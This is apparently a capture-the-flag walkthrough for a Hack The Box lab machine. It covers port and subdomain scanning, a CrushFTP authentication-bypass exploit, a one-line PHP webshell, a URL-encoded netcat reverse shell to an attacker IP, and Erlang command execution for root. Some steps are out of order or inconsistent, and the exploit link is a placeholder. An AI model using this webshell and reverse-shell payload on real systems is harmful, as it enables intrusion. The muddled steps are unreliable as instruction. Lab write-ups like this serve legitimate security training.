 # Soulmate HTB Walkthrough

This write-up documents the full exploitation process for the soulmate.htb machine, including reconnaissance, enumeration, exploitation, privilege escalation, and final root access.

-----

## 🔍 Reconnaissance

First, perform a full TCP port scan with Nmap to identify open services:

```bash
nmap -p- -Pn <target> -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && \
nmap -Pn <target> -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && \
nmap -T5 -Pn <target> -v --script vuln -oN nmap_vuln.txt
```

-----

## 🌐 Web Enumeration

### Directory brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://soulmate.htb/FUZZ -s
```

### Subdomain brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.84.47/ -H 'Host: FUZZ.soulmate.htb' -fs 154
```

-----

## 📂 FTP Service (CrushFTP)

The domain `ftp.soulmate.htb` resolves to a CrushFTP web interface.

The version string found:

```
11.W.657-2025_03_08_07_52
```

This version is vulnerable to CVE-2025-31161:

[GitHub PoC – CVE-2025-31161](https://www.google.com/search?q=https://github.com/user/repo)

### Exploit usage:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123
```

After exploitation, we can access:

`http://ftp.soulmate.htb/WebInterface/UserManager/index.html`

-----

## 🔑 Credential Discovery

Inside the configs we find credentials:

```
user: ben
pass: HouseH0ldings998
```

We switch user successfully:

```bash
su ben
Password: HouseH0ldings998
```

-----

## ⚡ Web Shell Access

Upload a PHP webshell:

```php
<?=`$_GET[0]`?>
```

Trigger a reverse shell:

```
http://soulmate.htb/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.15.30%204444%20%3E%2Ftmp%2Ff
```

-----

## 🔧 Shell Stabilization

```bash
chmod +x socatx64.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

-----

## 📉 Deadend Enumeration

Some enumeration paths don’t yield privilege escalation.

-----

## 📜 Erlang Script Discovery

A key file is found:

```bash
cat /usr/local/lib/erlang_login/start.escript
```

-----

## 🏁 User Flag

The user flag is captured.

-----

## 🧪 Root Exploitation with Erlang

By experimenting with Erlang command execution:

Final command for root flag:

```erlang
os:cmd("cat /root/root.txt").
```

-----

## ✅ Conclusion

We gained access through:

1.  **Enumeration** → Identified CrushFTP.
2.  **Exploitation** → CVE-2025-31161 for account creation.
3.  **Shell** → Uploaded PHP webshell.
4.  **Privilege Escalation** → Erlang `os:cmd/1` execution.
5.  Captured both `user.txt` and `root.txt`.

